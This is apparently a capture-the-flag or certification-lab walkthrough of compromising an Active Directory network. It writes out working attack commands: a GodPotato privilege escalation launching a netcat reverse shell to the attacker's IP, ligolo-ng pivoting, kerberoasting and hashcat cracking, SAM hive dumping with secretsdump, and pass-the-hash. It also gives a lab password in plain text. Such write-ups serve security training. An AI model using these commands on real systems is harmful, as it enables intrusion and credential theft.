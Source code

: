 # Active Directory

I start off with the credentials:

```
Eric.Wallows / EricLikesRunning800
```

I start by enumerating for SMB shares:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that we can connect through evil-winrm and that the user eric.wallows has SeImpersonatePrivilege

<figure><img src="../../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070" %}

So i upload printspoofer to the box:

<figure><img src="../../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

But there is a problem with a persistent shell because evil winrm is not interactive, so i go on another method, download and upload godpotato and launch this command:

```
C:/Users/eric.wallows/Desktop/GodPotato-NET4.exe -cmd "C:/Users/eric.wallows/Desktop/nc.exe -e cmd.exe 192.168.45.157 1234"
```

and i get a reverse shell:

<figure><img src="../../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Ok so whil looking at the IP config, we see that this machine is dual homed:

<figure><img src="../../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

So i need to be able to pivot to access the services on the other subnet, i'll  use ligolo:

```
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng
go build -o agent ./cmd/agent
go build -o proxy ./cmd/proxy
```

From my linux box i can send to target 2 ways, with or without winrm:

without:

```
scp agent.exe user@windows-target:C:\Users\Public\agent.exe
```

with:

```
Invoke-WebRequest -Uri "http://YOUR_IP/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

<figure><img src="../../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

I got some problems with:

```sh
[Feb 21, 2025 - 20:41:38 (CET)] exegol-Offsec ligolo-ng # ./proxy -laddr 0.0.0.0:11601

ERRO[0000] Could not load TLS certificate. Please make sure paths are correct or use -autocert or -selfcert options  certfile=certs/cert.pem keyfile=certs/key.pem
FATA[0000] open certs/cert.pem: no such file or directory
```

and fixed it with:

```
./proxy -laddr 0.0.0.0:11601 -selfcert
```

ok i gave up on chisel and came back on ligolo, after downloading ligolo agent for windows and proxy for linux, on my kali box i ran&#x20;

```
tar -xvzf ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

and on my windows session i ran:

```
./agent.exe --connect 192.168.45.238:11601 -ignore-cert
```

<figure><img src="../../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

Then in another terminal i type:

```
sudo ip route add 10.10.87.0/24 dev ligolo
```

and i go back in the kali ligolo shell and type:

```
session
1
start
```

And i can now ping the internal network:&#x20;

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

Then i start my enumeration over again and look for open ports:

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

then i look for open shares:

<figure><img src="../../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

I go and download everything in Users share and find a lot of stuff:

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

I started looking through each file but it was very long so i told myself that i'll continue enumeration and found something:

```
nxc ldap 10.10.87.140 -u Eric.Wallows -p EricLikesRunning800 --kerberoasting kerb.out
```

<figure><img src="../../../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the password of web\_svc with command:

```
hashcat -m13100 websvc.hash /usr/share/wordlists/rockyou.txt
```

And we confirm we have the good credentials:

<figure><img src="../../../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

Then i went back and privesc to dump hashes:

```
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

was able to secretsdump&#x20;

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL 
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

With the default creds i can connect to celia.almeda: via evil winrm

Then i find a windows.old folder that contains in /windows/system32 a sam and system hive that i export back to my attackbox and crack:

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to use pass the hash to connect as tom admin:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And get the proof.txt on the admin Desktop
